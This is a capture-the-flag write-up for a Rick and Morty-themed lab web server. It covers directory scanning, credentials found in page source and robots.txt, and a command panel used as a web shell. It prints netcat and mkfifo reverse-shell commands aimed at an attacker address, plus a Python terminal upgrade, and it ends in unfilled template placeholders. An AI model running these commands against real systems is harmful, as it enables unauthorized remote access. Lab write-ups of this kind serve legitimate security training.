




CTF Write-up: Pickle Rick
Introduction
A Rick and Morty CTF. Help turn Rick back into a human!
Objective
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into human from a pickle.
Setup
Either use the AttackBox or do it properly and use the VPN.

Step One
Inspect the elements of the landing page. You will see that there is a comment with the username "R1ckRul3s". Write this down!
Step Two
Enumerate the websites directories...
case@local:~$ gobuster dir -u http://10.10.236.162 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 64 -o rickCtfDirScan.txt 2>/dev/nullLet us also run a basic Nikto scan, as this will retrieve the headers advertisied by the webserver and will look for any sensitive files also...
case@local:~$ nikto -h http://10.10.236.162 -o rickCtfNiktoScan.txtThere is quite a lot that could be interesting to us in both of the scan output files. Firstly, there is a "robots.txt" file, identified by the gobuster scan. Typically this file is used by websites to give instructions to web crawlers. However, it might provide detail as to hidden directories or files, or even give clues to sensitive information. Let us see if we can request it directly in the URL...
We can! This is non-standard content for the "robots.txt" file. Write this down! Is this the password for the username we found in step one?
The contents of the nikto scan output file has this line "+ GET /login.php: Admin login page/section found.". Let us see if we can request that page, and if so, enter what we now believe to be valid credentials. What do you know, it worked, we are now logged in...
Step Three
We now have a active session on the site. Not only that, but we have been greeted with a ruddy web form with an input that is labelled as "Command Panel". Will this form execute shell commands for us? Let us try, enter "whoami" and hit enter...
We effectively have a web shell. "whoami" is showing we are currently logged in as "www-data". This is good. However, "www-data" is commonly the user created when the web server software is installed and therefore is, typically, a low-privileged user created specifically for running web server processes. I wonder if we can submit the form with a command to open a network connection and execute a shell? Let us try with netcat. First we need a listener on our local/attacking machine..
case@local:~$ sudo nc -lvnp 444Now submit the command..
nc attacking_ip_address 444 -e /bin/bashIt did not work....
Maybe it just does not like the attempt to execute the shell; in many systems, especially on newer versions of netcat (like netcat-openbsd), the -e option (which allows execution of commands) is disabled by default due to security concerns, as it can be used for malicious purposes (like reverse shells!!). So let us see if we can simply submit the command...
nc attacking_ip_address 444It worked!!
case@local:~$ sudo nc -lvnp 444
[sudo] password for case:
Listening on 0.0.0.0 444
Connection received on 10.10.43.192 37146
Okay, so we can successfully execute a netcat command but we cannot use the "-e" option, which allows us to execute an external program after making the connection. Well, let's just do it manually instead, by creating a named pipe and redirecting stdin, stdout and stderr...
mkfifo /tmp/f; nc attacking_ip_address 444 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/fWe now have a reverse shell..
case@local:~$ sudo nc -lvnp 444
[sudo] password for case:
Listening on 0.0.0.0 444
Connection received on 10.10.43.192 37260
whoami
www-data
This is a bit clunky however, it doesn't give us a fully-fledged terminal environment. Let us see if we can spawn a pseudo-terminal using Python, to more accurately simulate a real terminal session; we know we are on a Linux box, Python3 is likely installed, let us give it a go...
python3 -c 'import pty; pty.spawn("/bin/bash")'It worked a treat...
www-data@ip-10-10-43-192:/var/www/html$Solution
Final solution or flag...
command input herecommand output hereConclusion
Summary and lessons learned...